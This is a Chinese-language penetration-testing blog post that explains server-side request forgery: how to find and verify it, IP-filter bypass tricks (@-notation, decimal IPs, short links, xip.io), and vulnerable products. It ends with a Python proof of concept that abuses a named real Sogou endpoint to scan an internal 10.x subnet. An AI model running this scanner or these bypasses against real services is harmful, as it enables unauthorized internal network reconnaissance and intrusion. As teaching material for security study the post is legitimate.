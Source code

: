 +++
date = "2016-06-30T15:30:54+08:00"
description = ""
draft = false
tags = ["ssrf"]
title = "SSRF"
topics = ["Pentest","SSRF"]

+++

## SSRF
&nbsp;&nbsp;&nbsp;&nbsp;SSRF(Server-Side Request Forgery:服务请求伪造)是一种由攻击者构造，从而让服务端发起请求的一种安全漏洞，<font color="FF0000">它将一个可以发起网络请求的服务当作跳板来攻击其他服务</font>，SSRF的攻击目标一般是<font color="FF0000">内网</font>。  
&nbsp;&nbsp;&nbsp;&nbsp;当服务端提供了从其他服务器获取数据的功能(如:从指定URL地址获取网页文本内容、加载指定地址的图片、下载等)，但是没有对目标地址做过滤与限制时就会出现SSRF。

## SSRF的危害
可以扫描内部网络  
可以构造数据攻击内部主机

## 漏洞挖掘
其实只要能对外发起网络请求就有可能存在SSRF漏洞。
```
1. 从WEB功能上寻找
    通过URL分享内容
    文件处理、编码处理、转码等服务
    在线翻译
    通过URL地址加载与下载图片
    图片、文章的收藏
    设置邮件接收服务器
2. 从URL关键字寻找
    share、wap、url、link、src、source、target、u、3g、
    display、sourceURl、imageURL、domain...
```

## 漏洞验证
```
http://www.douban.com/***/service?image=http://www.baidu.com/img/bd_logo1.png
1. 右键在新窗口打开图片，若浏览器上URL地址为http://www.baidu.com/img/bd_logo1.png，
    说明不存在SSRF漏洞。  
2. firebug看网络连接信息，若没有http://www.baidu.com/img/bd_logo1.png
    这个图片请求，则证明图片是豆瓣服务端发起的请求，则可能存在SSRF漏洞。
```

## 绕过过滤
有时漏洞利用时会遇到IP限制，可用如下方法绕过：
```
* 使用@：http://A.com@10.10.10.10 = 10.10.10.10
* IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
* 使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
* 端口绕过：ip后面加一个端口
* xip.io：10.0.0.1.xip.io = 10.0.0.1
        www.10.0.0.1.xip.io = 10.0.0.1
        mysite.10.0.0.1.xip.io = 10.0.0.1
        foo.bar.10.0.0.1.xip.io = 10.0.0.1
* 通过js跳转
```

## 通用的SSRF实例
```
* weblogin配置不当，天生ssrf漏洞
* discuz x2.5/x3.0/x3.1/x3.2 ssrf漏洞
* CVE-2016-1897/8 - FFMpeg
* CVE-2016-3718 - ImageMagick
```

## 附POC
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import re
import requests
from IPy import IP
import Queue
import threading


def get_url_queue():
    url = "http://www.sogou.com/reventondc/external?key=&objid=&type=2&charset=utf-8&url=http://"
    urllist = Queue.Queue()
    ip_list = IP('10.146.20.0/24')
    port_list = ['80','8000','8080']
    for ip_add in ip_list:
        ip_add = str(ip_add)
        for port in port_list:
            url_t = url + ip_add + ':' + port
            urllist.put(url_t)
    return urllist

def get_title(urllist):
    while not urllist.empty():
        url = urllist.get()
        html = requests.get(url).text
        patt = r'<title>(.*?)</title>'
        m = re.search(patt,html)
        if m:
            title = m.group(1)
            print "%s\t%s" % (url,title)


urllist = get_url_queue()
print "start get title..."
for x in xrange(1,30):
    t = threading.Thread(target=get_title,args=(urllist,))
    t.start()
```